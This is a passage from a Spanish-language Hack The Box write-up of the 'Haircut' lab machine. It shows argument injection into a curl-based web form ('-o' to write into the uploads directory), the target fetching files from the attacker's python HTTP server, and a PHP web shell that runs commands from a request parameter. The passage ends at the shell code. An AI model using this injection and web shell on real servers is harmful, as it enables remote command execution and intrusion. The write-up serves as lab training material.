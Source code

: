 ![""](/assets/images/htb-haircut/haircut-curl.png)

Se nos creó el archivo `test.html` en el recurso `uploads`; así que tenemos creación de archivo dentro de dicho directorio. Vamos a probar si tenemos posibilidad de visualizar recursos externos, así que nos creamos un archivo de prueba `test.txt`:

```txt
Esto es una prueba
```

Y vamos a tratar de visualizarlo desde la página web, por lo que debemos compartir un recurso HTTP con python:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [18/Oct/2021 20:35:30] "GET /test.txt HTTP/1.1" 200 -
```

```bash
http://10.10.14.16/test.txt
```

![""](/assets/images/htb-haircut/haircut-curl1.png)

Nos arroja la información de nuestro archivo, por lo que vamos a probar si podemos guardar dicho archivo en el recurso `uploads`:

```bash
http://10.10.14.16/test.txt -o /var/www/html/uploads/test.txt
```

![""](/assets/images/htb-haircut/haircut-curl2.png)

Podemos subir archivos al sistema, así que vamos a crear nuestro archivo `shell.php`

```bash
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
